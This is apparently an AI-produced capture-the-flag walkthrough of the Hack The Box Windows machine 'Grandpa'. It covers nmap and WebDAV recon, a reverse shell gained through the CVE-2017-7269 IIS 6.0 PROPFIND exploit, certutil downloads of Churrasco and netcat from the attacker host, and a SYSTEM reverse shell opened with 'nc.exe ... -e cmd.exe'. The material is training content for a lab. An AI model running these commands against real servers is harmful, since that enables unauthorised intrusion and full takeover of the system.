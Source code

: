 ## 📌 Box Info
- **OS**: [Windows](Windows)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
- Prep: [OSCP](OSCP)
- **Exploits Used**:
  - [HTTP](HTTP) – WebDAV Support
  - **CVE-2017-7269** – [HTTP](HTTP) PROPFIND Buffer Overflow (RCE)
  - **CVE-2009-0078** – Local PrivEsc with `Churrasco.exe`

---

## 🧭 Recon

### 🔍 Nmap Scan
```bash
nmap -sV -sC -oA grandpa 10.10.10.14
```

**Result:**
```
80/tcp open  http    Microsoft IIS httpd 6.0
| http-methods:
|   Supported Methods: OPTIONS TRACE GET HEAD COPY MOVE PROPFIND SEARCH LOCK UNLOCK
|_  Potentially risky methods: TRACE COPY MOVE PROPFIND SEARCH LOCK UNLOCK
|_http-server-header: Microsoft-IIS/6.0
|_http-title: Under Construction
```

IIS 6.0 with [HTTP](HTTP) **WebDAV** extensions is exposed — great target for known RCEs.

---

## 🔎 WebDAV Test – [HTTP](HTTP)

### 🌐 Test with `davtest`
```bash
davtest -url http://10.10.10.14
```

**Result:**  
No upload capability, but [HTTP](HTTP) verbs like `PROPFIND`, `SEARCH`, and `LOCK` are enabled.

---

## 🧨 Initial Foothold – [CVE-2017-7269 (PROPFIND RCE)](https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269/tree/master)

### 🛠️ Clone Exploit
```bash
git clone https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269.git
cd iis6-exploit-2017-CVE-2017-7269
```

### ✏️ Rename if needed
```bash
mv iis6 reverse.py
```

### 📡 Set Up Listener
```bash
rlwrap nc -lnvp 4444
```

### 🚀 Launch Exploit (Over [HTTP](HTTP))
```bash
python2 reverse.py 10.10.10.14 80 10.10.14.10 4444
```

### 💥 Shell Received
```cmd
whoami
nt authority\network service
```

### 🧾 Grab User Flag
```cmd
type "C:\Documents and Settings\NetworkService\Desktop\user.txt"
```

---

## 🧱 Privilege Escalation – SYSTEM

### 📄 System Info
```cmd
systeminfo > info.txt
```

### 🔍 Find Privesc with `wes.py`
```bash
./wes.py info.txt
```

### 🎯 Vulnerability Found: **CVE-2009-0078**
- Exploits `SeImpersonatePrivilege`
- Works perfectly on this unpatched 2003 box

---

## 🚒 SYSTEM Shell via Churrasco

### 🧷 Download Churrasco
```bash
wget https://github.com/Re4son/Churrasco/raw/master/churrasco.exe
```

### 📦 Transfer Payload & Listener
```bash
# On Attacker
updog -p 80

# On Victim
certutil -urlcache -split -f http://10.10.14.10/churrasco.exe churrasco.exe
certutil -urlcache -split -f http://10.10.14.10/nc.exe nc.exe
```

### 🛰️ Setup Second Listener
```bash
rlwrap nc -lnvp 5555
```

### 🚀 Execute SYSTEM Shell via Churrasco
```cmd
churrasco.exe -d "nc.exe 10.10.14.10 5555 -e cmd.exe"
```

### ✅ SYSTEM Confirmed
```cmd
whoami
nt authority\system
```

---

## 🏁 Grab Root Flag
```cmd
type "C:\Documents and Settings\Administrator\Desktop\root.txt"
```

---

## ✅ Summary

| Phase | Details |
|-------|---------|
| **Recon** | Found IIS 6.0 [HTTP](HTTP) server with WebDAV support |
| **Initial Access** | CVE-2017-7269 – Exploited PROPFIND via [HTTP](HTTP) for RCE |
| **Privesc** | CVE-2009-0078 – Used Churrasco to escalate to SYSTEM |
| **Flags** | Retrieved `user.txt` and `root.txt` |

---

Let me know if you'd like a `.md` version or one formatted for a report 📄✨